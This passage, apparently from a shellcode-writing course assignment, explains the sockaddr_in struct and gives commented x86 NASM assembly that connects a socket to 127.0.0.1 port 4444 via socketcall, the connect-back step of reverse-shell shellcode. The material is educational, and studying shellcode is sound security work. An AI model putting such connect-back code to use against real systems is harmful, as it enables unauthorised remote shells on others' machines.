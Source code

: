 First `hurdle` is the `sockaddr_in` struct, which I've already covered in the 1st assignment:

```cpp
struct sockaddr_in {
  unsigned short      sin_family;
  unsigned short      sin_port;
  struct in_addr      sin_addr;
};

struct in_addr sin_addr {
  unsigned int        s_addr;
}
```

The size of the struct `sockaddr_in` is `0x10` bytes (due to padding). Follows the assembly code regarding the creation of the aforementioned struct, and the `connect` function:

```nasm
    ; inet_aton("127.0.0.1")
    ;rol ebx, 24
    ;push ebx
    push 0x0100007f
    ;mov [esp], BYTE 127
    
    ; 0x115c -> htons(4444)
    push WORD 0x5c11

    ; 0x0002 -> AF_INET
    mov bl, 2
    push WORD bx

    ; save the pointer to the struct for later
    mov ecx, esp
    
    ; 3rd argument of connect(): size of the struct
    ; push 16
    xor ebx, ebx
    mov bl, 16
    push ebx

    ; 2nd argument of connect(): pointer to the struct
    push ecx

    ; 1st argument of connect(): file descriptor of the server socket
    push esi
    
    ; syscall socketcall()
    xor eax, eax
    mov al, 102

    ; 1st argument of socketcall(): call SYS_CONNECT
    mov bl, 3

    ; 2nd argument of socketcall(): pointer to the parameters of bind()
    mov ecx, esp

    int 0x80
```
